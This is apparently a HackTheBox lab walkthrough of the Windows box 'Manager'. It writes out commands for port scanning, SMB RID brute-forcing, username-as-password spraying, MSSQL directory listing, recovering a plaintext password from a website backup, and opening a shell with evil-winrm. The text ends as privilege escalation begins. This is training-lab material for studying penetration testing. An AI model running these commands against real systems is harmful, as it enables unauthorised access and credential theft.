HackTheBox Machine: Mananger - Walkthrough
HTB box name: Mananger
OS: Windows
Difficulty: Medium
IP: 10.10.11.236

# Scanning

I like to start with scanning all available ports with nmap.
`nmap -p- -oA nmap/allPorts 10.10.11.236`

<!-- scan image -->

Lets scan againg for known ports with some extra flags
-sC : Default script scan
-sV : Service version detection
-oA : Output to file(to keep the record)

<!-- scan image -->

There are a lot of open ports, lets list the interesting ones to tackle with:

## 80(HTTP) - Web server

LDAP ports revealed Domain Names, lets add them to /etc/hosts file
`echo 10.10.11.236  dc01.manager.htb mananger.htb >> /etc/hosts`

Upon checking the website couldn't find much in client side source code.
Was simple website with contact form. And form action was empty so it does not preform any server side actions
Lets preform directory bruteforcing with gobuster and see if we can find something.
`gobuster dir -u 10.10.11.236 -w /usr/share/dirb/wordlists/common.txt`

There was not much of interesting directories.
Lets move forward.

## 445(SMB) - File sharing

This is interesting one. Most of times SMB is accesible by autonomous users.
Will be using crackmapexec, which is powerfull tool to enumerate Windows/Active Directory environments, to try to access SMB and bruteforce AD objects.
`crackmapexec smb 10.10.11.236 -u anonymous -p "" --rid-brute 10000`



We were able to get usernames. Lets tidy them up and save them in `users.txt` file so that we can use them in bruteforcing. Running bruteforcing with huge list can take a long time. We can try to go faster route by trying usernames as passwords. Human nature is lazy to use complicated passwords sometimes :D
We can again use `crackmapexec`, by specifying user and password list with additinal flags.
`crackmapexec smb 10.10.11.236 -u users.txt -p users.txt --no-brute --continue-on-success`



It worked for `operator` user.

## 1433(MSSQL) - SQL server

Lets try `operator` user to enumarate MSSQL server as well. We will be using same `crackmapexec` command as above but for mssql.
`crackmapexec mssql 10.10.11.236 -u operator -p operator --no-brute --continue-on-success`



We can see that operator can login into MSSQL server. Let login using mssql client and try to find some usefull data. Will be using mssql client from impacket.
`impacket-mssqlclient -port 1433 10.10.11.236/operator:operator@10.10.11.236 -window`



Lets look around and see if we can find something. Help command is handy here and we can run the following commands:



I have enumerated db, no interesting info there.
If we want to have reverse shell we need to access to cmd. So we can use `xp_cmdshell`. Upon trying, we see that we do not have permissions.



We can utilize `xp_dirtree` to list the directory. And try to look for interesting files.



Simple google search will tell us `c:\Inetpub\wwwroot` is default IIS directory. We can take a look there.



We found `website-backup-27-07-23-old.zip` file and we can download it with wget and see whats in there.


Found .`old-conf.xml` file. And there were credentials for user: `raven`



We can test if that credentials are still correct with `crackmapexec`.
`crackmapexec winrm dc01.manager.htb  -u raven -p "R4v3nBe5tD3veloP3r!123" -d manager.htb --no-brute --continue-on-success`



Appears that we can access using these credentials. We will utilize this credentials to get acces into system shell using `evil-winrm`.
`evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'`



I found Certify.exe which is used for privelage escalation in Windows machines, especially for  Active Directory certificate abusing.

Before digging into it, lets see what we can find user flag.

And we were able to find user flag.

# Privelage Escalation

As we found `Certify.exe`, lets see if we can run it and find possible privelages escalation paths.

